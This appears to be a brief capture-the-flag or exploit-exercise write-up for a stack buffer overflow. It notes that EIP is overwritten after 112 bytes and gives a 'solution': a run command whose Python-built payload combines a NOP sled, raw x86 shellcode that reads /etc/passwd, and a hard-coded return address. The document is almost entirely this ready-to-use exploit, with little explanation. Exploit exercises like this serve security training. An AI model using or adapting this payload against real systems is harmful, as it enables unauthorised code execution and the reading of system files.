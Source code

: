 
It overflows EIP after **112 bytes**
Payload for reading /etc/passwd


Solution 
-----------

    run  $(python -c 'print("\x90"*39 + "\x31\xc9\x31\xc0\x31\xd2\x51\xb0\x05\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x89\xd9\x89\xc3\xb0\x03\x66\xba\xff\x0f\x66\x42\xcd\x80\x31\xc0\x31\xdb\xb3\x01\xb0\x04\xcd\x80\x31\xc0\xb0\x01\xcd\x80" +"\x90"*15+"\xd0\xd2\xff\xff")' )
